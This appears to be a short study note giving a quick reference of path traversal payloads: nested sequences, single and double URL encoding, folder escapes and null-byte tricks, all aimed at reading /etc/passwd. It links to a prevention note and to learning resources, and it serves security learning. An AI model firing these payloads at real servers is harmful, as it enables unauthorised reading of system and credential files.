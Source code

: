 # Path Traversal - Quick Reference

Absolute file path: 
```bash
filename=/etc/passwd
```

When escape sequenced are stripped:
```bash
# Nested Traversal Sequence
....//....//etc//passwd
```

When input is sanitised:
```bash
# Single URL Encoding
%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd

# Double URL Encoding
..%252f..%252f..%252fetc/passwd
```

When a specific folder is expected:
```bash
/var/www/images/../../../etc/passwd
```

When a specific file extension is expected:
```bash
# NULL Characater %00
../../../etc/passwd%00.png
```

---
## Related:
- [[202505300847|How to prevent a path traversal attack]]
## References:
- https://portswigger.net/web-security/learning-paths/path-traversal/
- [PayloadsAllTheThings/Directory Traversal/README.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md)